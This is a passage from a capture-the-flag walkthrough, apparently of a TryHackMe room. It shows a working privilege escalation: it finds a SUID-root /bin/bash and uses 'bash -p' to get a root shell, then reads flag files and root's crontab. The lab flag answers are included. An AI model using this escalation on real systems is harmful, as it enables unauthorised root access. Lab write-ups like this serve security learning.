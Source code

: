 ~~~
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/bin/mount
/bin/bash     <------------------ interesting!
/bin/umount
/bin/fusermount
/bin/ping
/bin/su
~~~

/bin/bash is a good candidate for a privilege escalation as it is owned by root and has the SUID bit set:

~~~
$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
~~~

Time to get root access:

~~~
$ bash -p
bash-4.4# whoami
root
~~~

Let's read the flag in theend's home directory:

~~~
bash-4.4# cat /home/theend/flag98 
yw4fn0fme4wk071mxlca
~~~

# #19 - Flag 99

*Hint: Something call scheduler.*

~~~
bash-4.4# cat /root/flag99 
Flag 99 is controlled by time
bash-4.4# crontab -l
no crontab for guest
bash-4.4# cat /var/spool/cron/crontabs/root 
[REDACTED]
#flag99: rlucbw9qw3wkn43evf29
#congratulation on getting this far. If you are stuck with flag100, let me give you a hint.
#Hint: somewhere inside tryhackme website. The flag is easy but not obvious.
#Please, do not brute force or attack the site. Just find it.
~~~

Flag99: `rlucbw9qw3wkn43evf29`

# #20 - Flag 100
